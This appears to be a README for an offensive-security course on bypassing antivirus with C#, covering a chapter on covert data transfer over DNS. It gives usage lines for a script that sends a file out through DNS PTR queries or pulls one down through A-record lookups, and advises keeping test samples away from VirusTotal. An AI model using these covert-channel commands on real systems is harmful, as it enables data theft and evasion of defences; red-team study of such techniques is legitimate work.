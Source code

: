 # Course : Bypassing Anti Viruses by C#.NET Programming

Part 2 (Infil/Exfiltration/Transferring Techniques by C#)  , Chapter 4 : DATA Transferring Technique by DNS Traffic (A Records)

eBook : Bypassing Anti Viruses by C#.NET Programming

eBook chapter 4 , PDF Download : https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/tree/master/CH4

eBook chapter 5 , PDF Download : https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/tree/master/CH5

Related Video : 

Video 1 for chapter 4: https://www.youtube.com/watch?v=TjOTdxnyvV0

Video 2 for chapter 5: https://www.youtube.com/watch?v=zKUg_0LC9fk



Warning :Don't Use "www.virustotal.com" or something like that , Never Ever ;D

Recommended:

STEP 1 : Use each AV one by one in your LAB .

STEP 2 : after "AV Signature Database Updated" your Internet Connection should be "Disconnect" .

STEP 3 : Now you can Copy and Paste your C# code to your Virtual Machine for test .

# NativePayload_DNS2.sh help :

	Example A-Step1: (Server Side ) ./NativePayload_DNS2.sh -r
  
	Example A-Step2: (Client Side ) ./NativePayload_DNS2.sh -u text.txt DNSMASQ_IPv4 delay(sec)
  
	example IPv4:192.168.56.110 : ./NativePayload_DNS2.sh -r
  
	example IPv4:192.168.56.111 : ./NativePayload_DNS2.sh -u text.txt 192.168.56.110  0
  
	Description: with A-Step1 you will make DNS Server , with A-Step2 you can Send text file via PTR Queries to DNS server
  
	Example B-Step1: (Server Side ) ./NativePayload_DNS2.sh -d makedns test.txt mydomain.com
  
	Example B-Step2: (Client Side ) ./NativePayload_DNS2.sh -d getdata mydomain.com DNSMASQ_IPv4
  
	example IPv4:192.168.56.110 : ./NativePayload_DNS2.sh -d makedns text.txt google.com
  
	example IPv4:192.168.56.111 : ./NativePayload_DNS2.sh -d getdata google.com 192.168.56.110
  
	Description: with B-Step1 you will have DNS Server , with B-Step2 you can Dump test.txt file from server via A record Query
  
